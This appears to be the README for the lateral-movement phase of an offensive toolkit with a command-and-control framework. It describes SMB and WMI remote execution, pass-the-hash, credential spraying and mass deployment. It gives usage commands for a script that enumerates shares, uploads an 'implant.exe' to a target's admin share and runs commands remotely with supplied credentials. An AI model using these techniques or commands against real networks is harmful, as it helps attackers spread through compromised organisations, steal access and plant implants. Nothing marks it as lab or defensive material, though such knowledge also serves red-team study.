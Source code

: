 # Phase 4: Lateral Movement

## Overview

Phase 4 implements lateral movement techniques for moving across networks after initial compromise. This phase includes SMB/WMI-based remote code execution, pass-the-hash authentication, credential spraying, and automated lateral movement scanning across network ranges.

## Architecture

```
Phase 4 Components:
├── Lateral Movement
│   ├── SMB Execution (PSExec-style, File Upload, Share Enumeration)
│   ├── WMI Execution (Remote Commands, PowerShell, Queries)
│   ├── Pass-the-Hash Authentication
│   └── Automated Scanning (Credential Spraying, Mass Deployment)
└── Integration with C2 Framework
```

## Modules

### 1. SMB/WMI Execution (`lateral_movement/smb_wmi.py`)

Comprehensive SMB and WMI-based lateral movement capabilities.

**SMB Techniques:**
- Connection testing and validation
- Share enumeration
- File upload via SMB
- PSExec-style service execution
- Pass-the-hash authentication

**WMI Techniques:**
- Remote command execution
- PowerShell script execution (base64 encoded)
- WMI queries for system information
- Process creation and management

**Usage:**

```bash
# Test SMB connection
python lateral_movement/smb_wmi.py 192.168.1.100 -u admin -p Password123 --test

# Enumerate shares
python lateral_movement/smb_wmi.py 192.168.1.100 -u admin -p Password123 --shares

# Upload file via SMB
python lateral_movement/smb_wmi.py 192.168.1.100 -u admin -p Password123 \
  --upload C:\local\implant.exe C$\temp\implant.exe

# Execute command via SMB (PSExec-style)
python lateral_movement/smb_wmi.py 192.168.1.100 -u admin -p Password123 \
  --exec "whoami"

# Execute command via WMI
python lateral_movement/smb_wmi.py 192.168.1.100 -u admin -p Password123 \
  --wmi "whoami"

# Get system info via WMI
python lateral_movement/smb_wmi.py 192.168.1.100 -u admin -p Password123 --sysinfo

```